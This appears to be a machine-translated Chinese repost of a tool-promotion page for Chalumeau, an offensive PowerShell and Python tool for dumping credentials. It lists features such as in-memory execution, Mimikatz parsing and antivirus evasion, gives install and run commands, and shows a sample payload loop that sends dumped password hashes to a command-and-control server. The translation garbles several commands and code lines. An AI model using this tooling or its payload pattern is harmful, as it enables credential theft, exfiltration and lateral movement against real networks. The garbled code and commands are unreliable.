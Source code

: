 # Chalumeau:自动化、可扩展和可定制的凭证转储工具

> 原文：<https://kalilinuxtutorials.com/chalumeau/>

[![Chalumeau : Automated, Extendable & Customizable Credential Dumping Tool](img/04cd394a20579faa0223db2b1e8b51b2.png "Chalumeau : Automated, Extendable & Customizable Credential Dumping Tool")](https://1.bp.blogspot.com/-YXlo6V5rHCw/XzBPXMGmixI/AAAAAAAAHUQ/ACjYBimciq8Xjq4Coooe7o8NuRgCU3JNgCLcBGAsYHQ/s728/c1%25281%2529.png)

Chalumeau 是基于 powershell 和 python 的自动化、可扩展和可定制的凭证转储工具。

**主要特点**

*   编写您自己的有效负载
*   内存中执行
*   提取密码列表
*   仪表板报告/ Web 界面
*   解析 Mimikatz
*   倾倒门票

**已知问题**

*   解析 Mimikatz dcsync(正在修复)
*   绕过防病毒和 EDRs，您将需要维护您的有效载荷

**待办事项**

*   加密通信
*   自动横向移动
*   自动化密码喷涂
*   自动哈希破解

**使用**

git 克隆 https://github.com/cyberstruggle/chalumeau.git
CD chalumeau/
chmod+x install . sh
sudo。/install . sh

# Run
chmod+x start . sh
sudo。/start.sh

**编写自己的有效载荷**

混淆您自己的 powershell 有效负载以转储凭据，并在没有任何导入的情况下使用 chalumeau 函数调用 chalumeau 将加密并与 c2 联系，然后发送转储的凭据。只需将文件保存在 chalumeau-power/payloads 下

*   使用 ChalumeauSendCredentials 函数
    *   ChalumeauSendCredentials
        *   Secret =转储的哈希或明文密码(字符串)
        *   Username =转储凭据的 id 的用户名(字符串)
        *   如果是明文，IsClearText = 1，否则为 0(int)
        *   Source =提及源负载，如“Mimikatz Hash”(字符串)

**#** 自定义负载示例
#$ dumped hashes 是来自本地机器的转储散列的数组
foreach($ hash in $ dumped hashes){
ChalumeauSendCredentials-Secret $ hash . Secret-Username $ hash . user-IsClearText 0-source " My Custom Payload "
}

**学分**

*   瓦泽尔[作者](https://twitter.com/safe_buffer)
*   丹尼尔·博汉南
*   invoke-Mimikatz[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)
*   Get-PassHashes [霓裳](https://github.com/samratashok/nishang/blob/master/Gather/Get-PassHashes.ps1)
*   夏鲁摩标志[奥雷连诺](https://twitter.com/aurelbedelia)
*   调用-MassMimikatz [电动工具](https://github.com/PowerShellEmpire/PowerTools/blob/master/PewPewPew/Invoke-MassMimikatz.ps1)

[**Download**](https://github.com/cyberstruggle/chalumeau)